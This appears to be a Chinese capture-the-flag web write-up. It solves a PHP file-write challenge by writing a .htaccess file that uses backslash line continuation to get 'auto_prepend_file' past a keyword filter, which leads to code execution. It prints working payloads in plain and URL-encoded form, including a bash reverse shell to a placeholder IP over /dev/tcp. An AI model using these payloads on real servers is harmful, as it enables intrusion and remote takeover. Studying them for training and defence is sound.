 ![](<./img/Pasted image 20230226142322.png>)

```php
 <?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?> 
```

可以写入文件，虽然会删除`index.php`之外的文件，但是不访问`index.php`就能一直留着

```
/?filename=info.php&content=<?php phpinfo();?>
```

```
/info.php
```

![](<./img/Pasted image 20230226142803.png>)

并没有被解析

尝试直接往`index.php`写入

```
/?filename=index.php&content=<?php phpinfo();?>
```

莫得用

尝试往`.htaccess`写入，同时利用`.htaccess`的反斜杠续行绕过关键词检测

```
/?filename=.htaccess&content=php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();?>
#\
```

url编码

```
/?filename=.htaccess&content=php_value+auto_prepend_fi%5C%0D%0Ale+.htaccess%0D%0A%23%3C%3Fphp+phpinfo()%3B%3F%3E%0D%0A%23%5C
```

![](<./img/Pasted image 20230226151014.png>)

同理可弹shell

```
/?filename=.htaccess&content=php_value auto_prepend_fi\
le .htaccess
#<?php system('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');?>
#\
```

url编码

```
/?filename=.htaccess&content=php_value+auto_prepend_fi%5C%0D%0Ale+.htaccess%0D%0A%23%3C%3Fphp+system(%27bash+%2Dc+%22bash+%2Di+%3E%26+%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F2333+0%3E%261%22%27)%3B%3F%3E%0D%0A%23%5C
```

![](<./img/Pasted image 20230226154124.png>)

#Web #PHP #htaccess #RCE #reverse_shell